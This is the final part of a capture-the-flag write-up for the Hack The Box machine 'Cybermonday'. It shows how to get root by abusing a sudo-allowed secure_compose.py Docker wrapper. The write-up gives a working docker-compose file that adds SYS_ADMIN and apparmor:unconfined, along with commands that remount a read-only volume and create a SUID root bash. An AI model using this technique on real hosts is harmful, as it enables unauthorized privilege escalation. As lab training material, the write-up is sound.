# HTB Cybermonday - Composing Root Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[**Composing Root Access**](/writeups/machines/htb-cybermonday/7-composing-root-access)

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a Python script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a docker-compose.yml file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a SUID `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```shell
$ mount -o remount,rw /mnt
$ cp /bin/bash /mnt/bash
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```shell
$ sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```shell
$ ./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```shell
$ mount -o remount,rw /mnt
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```shell
$ cp /bin/bash ~/docker
$ sudo /opt/secure_compose.py docker-compose.yml
$ ./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.